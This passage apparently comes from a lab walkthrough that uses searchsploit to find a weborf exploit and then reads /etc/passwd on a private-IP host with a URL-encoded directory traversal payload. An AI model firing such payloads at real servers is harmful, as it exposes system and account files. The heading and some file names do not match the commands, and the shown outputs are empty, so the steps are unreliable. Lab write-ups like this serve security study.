




4. Look for vulnerabilities OpenDocMan 1.2.7
$ searchsploit weborf
$ searchsploit -m 14925
$
cat
14925.txt
Output:


Let's see what there is in the 32075.txt file
$
cat
/
root
/
14925.txt
Output:

Go to your Web Browser and in the URL, we injected the line that was displayed by the exploit. This machine is indeed vulnerable to Directory Traversal. You can read the /etc/passwd file.
http://192.168.12.31:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
Output:

Index